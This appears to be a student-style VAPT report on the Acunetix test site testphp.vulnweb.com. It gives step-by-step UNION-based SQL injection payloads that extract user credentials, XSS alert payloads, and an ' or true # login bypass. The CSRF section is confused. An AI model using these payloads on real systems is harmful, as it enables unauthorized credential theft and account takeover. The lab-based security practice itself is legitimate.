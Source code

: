 # Vulnerability Assessment and Penetration Testing (VAPT) for Home of Acunetix Art Web Application

## Objective

This report presents the findings and recommendations from a security assessment conducted on the **Home of Acunetix Art Web Application**. The objective of this assessment was to evaluate the application's security posture, identify vulnerabilities, and provide actionable mitigation strategies.

The assessment aimed to uncover security weaknesses within the Home of Acunetix Art Web Application and deliver a comprehensive final report detailing the identified vulnerabilities. Additionally, the report offers a remediation strategy and guideline recommendations to effectively mitigate the risks and enhance the application's security.

## Target Web Application

- **Name:** Home of Acunetix Art Web Application
- **URL:** [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/)

## Vulnerability Analysis and Penetration Testing

### 1. SQL Injection

- **Tools Used:** VMware (To load the application), SQLMap (Conduct the Vulnerability assessment)
- **IP Address:** [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)

**Need for Check:**
SQL injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database. By manipulating input data, an attacker can inject malicious SQL code into a query, potentially gaining unauthorized access to the database, retrieving sensitive information, modifying data, or even executing administrative operations.

**Analysis:**

1. Add `'` to the URL [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)
    - Result: mysql_fetch_array() error appears.
  
2. Modify the URL with `ORDER BY 3`
    - Result: Identifies the number of columns.

3. Modify the URL with `union select 1,2,3`
    - Result: Confirms which columns are vulnerable.

4. Modify the URL with `artist=1 union select 1,database(),version()`
    - Result: Displays database name and version.

5. Modify the URL with `artist=-1 union select count(*),3 from information_schema.tables where table_schema=”acuart”`
    - Result: Retrieves the count of tables.

6. Modify the URL with `union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=”acuart” LIMIT 0,9`
    - Result: Displays table names.

7. Modify the URL with `union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=”acuart” and table_name=”users”`
    - Result: Retrieves column names from the `users` table.

8. Finally, modify the URL with `union select 1,group_concat("NAME = ",name,"  ","PASSWORD = ",pass,"  ","EMAIL = ",email,"  ","PHONE = ",phone),3 from users`
    - Result: Retrieves user credentials.

### 2. Cross-Site Scripting (XSS)

- **Tools Used:** VMware (Browser)
- **IP Address:** 
  - [http://testphp.vulnweb.com](http://testphp.vulnweb.com)
  - [http://testphp.vulnweb.com/guestbook.php](http://testphp.vulnweb.com/guestbook.php)

**Need for Check:**
Cross-Site Scripting (XSS) is a security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. These scripts can be used to steal sensitive information or manipulate website content.

**Analysis:**

1. On [http://testphp.vulnweb.com](http://testphp.vulnweb.com), type `<script>alert(1)</script>` in the search bar.
    - Result: The payload executes, showing an alert box.

2. On [http://testphp.vulnweb.com/guestbook.php](http://testphp.vulnweb.com/guestbook.php), type `<script>alert(1)</script>` and click "Add Message."
    - Result: The JavaScript executes, indicating a vulnerability.

### 3. Cross-Site Request Forgery (CSRF)

- **Tools Used:** VMware (Browser)
- **IP Address:** 
  - [http://testphp.vulnweb.com](http://testphp.vulnweb.com)
  - [http://testphp.vulnweb.com/guestbook.php](http://testphp.vulnweb.com/guestbook.php)

**Need for Check:**
Cross-Site Request Forgery (CSRF) tricks a user into performing unintended actions on a web application where they are authenticated. This can lead to unauthorized actions like changing account details.

**Analysis:**

1. The user visits the URL and signs up.
    - Result: JavaScript code is executed and stored on the server, allowing for request forgery.

### 4. Authentication Bypass

- **Tools Used:** VMware (Browser)
- **IP Address:** 
  - [http://testphp.vulnweb.com/login.php](http://testphp.vulnweb.com/login.php)
  - [http://testphp.vulnweb.com/guestbook.php](http://testphp.vulnweb.com/guestbook.php)

**Need for Check:**
Authentication bypass is a vulnerability that allows an attacker to gain unauthorized access by circumventing the authentication process.

**Analysis:**

1. Visit the target URL [http://testphp.vulnweb.com/login.php](http://testphp.vulnweb.com/login.php).
2. Enter `' or true #` in both the username and password fields and click "Login."
    - Result: Successfully logged into another person’s account.

---

This document outlines the steps taken during the VAPT process and the vulnerabilities identified in the Home of Acunetix Art Web Application. Recommendations for mitigating these vulnerabilities have been provided in the full report.
